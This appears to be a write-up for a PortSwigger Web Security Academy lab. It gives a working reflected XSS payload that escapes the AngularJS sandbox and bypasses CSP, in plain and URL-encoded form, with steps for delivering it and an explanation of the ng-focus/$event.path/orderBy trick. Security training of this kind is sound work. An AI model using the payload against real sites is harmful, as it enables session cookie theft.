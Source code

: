 # Reflected XSS with AngularJS sandbox escape and CSP

## Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp) uses CSP and AngularJS. 

## Reproduction and proof of concept

1. Go to the exploit server and paste the following code, replacing `0a5a009b039d93c0c0374b3300ea00c7` with your lab ID:

```text
<script>
location='https://0a5a009b039d93c0c0374b3300ea00c7.web-security-academy.net/?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x';
</script>
```

URL encoded:

```text
<script>
location="https://0a5a009b039d93c0c0374b3300ea00c7.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x";
</script>
```

2. Click **Store** and **Deliver exploit to victim**.

The exploit uses the ng-focus event in AngularJS to create a focus event that bypasses CSP. It also uses `$event`, which is an AngularJS variable that references the event object. The path property is specific to Chrome and contains an array of elements that triggered the event. The last element in the array contains the window object.

Normally, `|` is a bitwise or operation in JavaScript, but in AngularJS it indicates a filter operation, in this case the `orderBy` filter. The colon signifies an argument that is being sent to the filter. In the argument, instead of calling the `alert` function directly, we assign it to the variable `z`. The function will only be called when the `orderBy` operation reaches the window object in the `$event.path` array. This means it can be called in the scope of the window without an explicit reference to the window object, effectively bypassing AngularJS's window check.
